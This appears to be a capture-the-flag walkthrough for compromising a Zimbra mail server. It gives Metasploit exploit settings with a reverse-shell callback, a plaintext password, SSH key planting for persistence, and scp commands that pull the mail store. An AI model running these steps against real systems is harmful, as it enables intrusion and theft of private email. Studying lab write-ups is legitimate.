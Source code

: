 # Mail Server

1. Address: `mail.petromaz.ir`
2. Find vulnerability: `https://www.exploit-db.com/exploits/46693`
3. Run Metasploit `msfconsole -q`
```
use exploit/linux/http/zimbra_xxe_rce
set RHOST mail.petromaz.ir
set RPORT 443

set LHOST <your-ip>
set LPORT 4747

# -j will run it as a JOB
run
```
> Attention: **Password: Zimbra2024**

4. Check SSH Keys (Create One, if needed)
```
cd ~/.ssh
ls -la
cat id_rsa.pub

# Create If You Don't Have one
ssh-keygen -t rsa
```
5. Set public Key: `echo "<your-pub-key>" > ~/.ssh/authorized_keys`
6. Ssh into Server: `ssh -i "<private-key>" zimbra@mail.petromaz.ir`
7. Get Flag: MAZAPA_aee82fac0c8fb5818b26db37a577027c
8. Download Zimbra Data
```
scp -i "<private-key>" -r zimbra@mail.petromaz.ir:/opt/zimbra/store/0 ./08-store0
```
9. Check Emails and Decode Files: `https://www.freeformatter.com/base64-encoder.html`
10. Network Map: [🗂 Network Map](./09-258-3.xlsx)
